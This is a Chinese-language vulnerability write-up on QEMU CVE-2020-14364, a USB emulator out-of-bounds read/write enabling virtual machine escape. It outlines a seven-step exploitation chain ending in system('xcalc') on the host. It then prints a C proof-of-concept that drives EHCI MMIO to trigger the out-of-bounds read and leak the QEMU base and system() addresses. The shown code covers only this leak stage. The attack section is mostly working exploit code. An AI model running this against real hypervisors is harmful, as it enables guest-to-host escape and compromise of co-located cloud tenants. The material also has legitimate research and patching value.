

# QEMU 虚拟机逃逸漏洞 CVE-2020-14364

## 漏洞描述

当地时间8月24日，一个存在于QEMU USB模拟器中的越界读写漏洞（CVE-2020-14364）被公布。

漏洞位于 ./hw/usb/core.c 中，当程序处理来自客户机的USB数据包时，如果在 do_token_in 与 do_token_out中’USBDevice->setup_len’超过了USBDevice->data_buf[4096]，则存在问题。

客户机用户可能会使用此漏洞使QEMU进程崩溃，从而导致DoS或在宿主机上以QEMU进程的特权执行任意代码，实现虚拟机逃逸。

攻击者在拥有云环境虚拟机操作系统权限的情况下，便可利用该漏洞获取宿主机权限，进而攻击虚拟机所在资源池所有租户主机，甚至可通过已开通的内网权限攻击管理域系统，风险极高。

本次漏洞的影响范围较广，涉及qemu 1.0 以上的全部版本。

## 漏洞影响

<a-checkbox checked>Qemu > 1.0</a-checkbox></br>

## 漏洞复现

USB总线通过创建一个USBpacket对象来和USB设备通信。

Usbpacket对象中包含以下关键内容


其中pid表明packet的类型，存在三种类型in、out、setup, ep指向endpoint对象，通过此结构定位目标usb设备。

数据交换为usbdevice中缓冲区的data_buf与usbpacket对象中使用usb_packet_map申请的缓冲区两者间通过usb_packet_copy函数实现,为了防止两者缓冲区长度不匹配，传送的长度由s->setup_len限制。


漏洞存在于s->setup_len赋值的过程do_token_setup中。


虽然进行了校验，但是由于在校验前，s->setup_len的值已经被设置导致之后的do_token_in或者do_token_out中使用usb_packet_copy时会产生越界读写漏洞。

`1.泄露USBdevice对象的地址,观察越界可读内容发现 可以从下方的ep_ctl->dev获取到usbdevice的对象地址`



`2.  通过usbdevice的对象地址我们可以得到s->data_buf的位置，之后只需要覆盖下方的setup_index为目标地址-(s->data_buf)即可实现任意地址写。`

`3.  我们还需要获取任何地址读取功能，setup_buf [0]控制写入方向，并且只能由do_token_setup进行修改。 由于我们在第二步中使用了越界写入功能，因此setup_buf [0]是写入方向，因此只可以进行写入操作，无法读取。绕过方法：设置setup_index = 0xfffffff8，再次越界，修改setup_buf [0]的值，然后再次将setup_index修改为要读取的地址，以实现任意地址读取。`

`4.通过任意地址读取usbdevice对象的内容以获取ehcistate对象地址，再次使用任意地址读取ehcistate对象的内容以获取ehci_bus_ops_companion地址。 该地址位于程序data节区。 这时，我们可以获得程序的加载地址和system @ plt地址。也可以通过读取usbdevice固定偏移位置后的usb-tablet对象来获得加载地址。`

`5.在data_buf中伪造irq结构。`

`6.以伪造结构劫持ehcistate中的irq对象。`

`7.通过mmio读取寄存器以触发ehci_update_irq，执行system（“ xcalc”）。 完成利用`

<a-alert type="success" message="QEMU CVE-2020-14364 POC 视频演示: https://v.qq.com/x/page/w3141fini4b.html" description="" showIcon>
</a-alert>

<br/>

## 漏洞POC

```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
#include <errno.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <stdbool.h>
#include <netinet/in.h> 

unsigned char* mmio_mem;
char *dmabuf;
struct ohci_hcca * hcca;
struct EHCIqtd * qtd;
struct ohci_ed * ed;
struct ohci_td * td;
char *setup_buf;
uint32_t *dmabuf32;
char *td_addr;
struct EHCIqh * qh;
struct ohci_td * td_1;
char *dmabuf_phys_addr;
typedef struct USBDevice USBDevice;
typedef struct USBEndpoint USBEndpoint;

struct USBEndpoint {
    uint8_t nr;
    uint8_t pid;
    uint8_t type;
    uint8_t ifnum;
    int max_packet_size;
    int max_streams;
    bool pipeline;
    bool halted;
    USBDevice *dev;
    USBEndpoint *fd;
    USBEndpoint *bk;
};

struct USBDevice {
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;
    int32_t setup_index;
    USBEndpoint ep_ctl;
    USBEndpoint ep_in[15];
    USBEndpoint ep_out[15];
};


typedef struct EHCIqh {
    uint32_t next;                    /* Standard next link pointer */
    /* endpoint characteristics */
    uint32_t epchar;
    /* endpoint capabilities */
    uint32_t epcap;
    uint32_t current_qtd;             /* Standard next link pointer */
    uint32_t next_qtd;                /* Standard next link pointer */
    uint32_t altnext_qtd;
    uint32_t token;                   /* Same as QTD token */
    uint32_t bufptr[5];               /* Standard buffer pointer */
} EHCIqh;

typedef struct EHCIqtd {
    uint32_t next;                    /* Standard next link pointer */
    uint32_t altnext;                 /* Standard next link pointer */
    uint32_t token;
    uint32_t bufptr[5];               /* Standard buffer pointer */
} EHCIqtd;

uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;
    // Assert page alignment
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        die("open");
    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);
    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        die("read");
    // Assert page present

    phys = (phys & ((1ULL << 54) - 1)) * 0x1000+(virt&0xfff);
    return phys;
}

 

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

 
void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

 

uint64_t mmio_read(uint32_t addr)
{
    return *((uint64_t*)(mmio_mem + addr));
}

void init(){
int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.7/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

dmabuf = mmap(0, 0x3000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (dmabuf == MAP_FAILED)
        die("mmap");
    mlock(dmabuf, 0x3000);
hcca=dmabuf;
dmabuf32=dmabuf+4;
qtd=dmabuf+0x200;
qh=dmabuf+0x100;
setup_buf=dmabuf+0x300;
}

void init_state(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
struct EHCIqtd * qtd;
qtd=dmabuf+0x200;
qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
setup_buf[6]=0xff;
setup_buf[7]=0x0;
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void set_length(uint16_t len,uint8_t in){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);
setup_buf[0]=in;
setup_buf[6]=len&0xff;
setup_buf[7]=(len>>8)&0xff;
qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);

qtd->token=1<<7 | 2<<8 | 8<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x300);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

void do_copy_read(){
mmio_write(0x64,0x100);
mmio_write(0x64,0x4);

qh->epchar=0x00;
qh->token=1<<7;
qh->current_qtd=virt2phys(dmabuf+0x200);
qtd->token=1<<7 | 1<<8 | 0x1f00<<16;
qtd->bufptr[0]=virt2phys(dmabuf+0x1000);
qtd->bufptr[1]=virt2phys(dmabuf+0x2000);
dmabuf32[0]=virt2phys(dmabuf+0x100)+0x2;
mmio_write(0x28,0x0);
mmio_write(0x30,0x0);
mmio_write(0x38,virt2phys(dmabuf));
mmio_write(0x34,virt2phys(dmabuf));
mmio_write(0x20,0x11);
}

int main()
{
    init();
    iopl(3);
    outw(0,0xc0c0);
    outw(0,0xc0e0);
    outw(0,0xc010);
    outw(0,0xc0a0);
    sleep(3);
    init_state();
    sleep(2);
    set_length(0x2000,0x80);
    sleep(2);
    do_copy_read();
    sleep(2);
    struct USBDevice* usb_device_tmp=dmabuf+0x2004;
    struct USBDevice usb_device;
    memcpy(&usb_device,usb_device_tmp,sizeof(USBDevice));
    uint64_t dev_addr=usb_device.ep_ctl.dev;
    uint64_t *tmp=dmabuf+0x24f4;
    long long base=*tmp;
    if(base == 0){
        printf("INIT DOWN,DO IT AGAIN");
        return 0;
}
    base-=0xee5480-0x2668c0;
    uint64_t system=base+0x2d9610;
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
    printf("LEAK BASE ADDRESS:%llx!\n",base);
    printf("LEAK SYSTEM ADDRESS:%llx!\n",system);
    puts("\\\\\\\\\\\\\\\\\\\\\\\\");
}
```

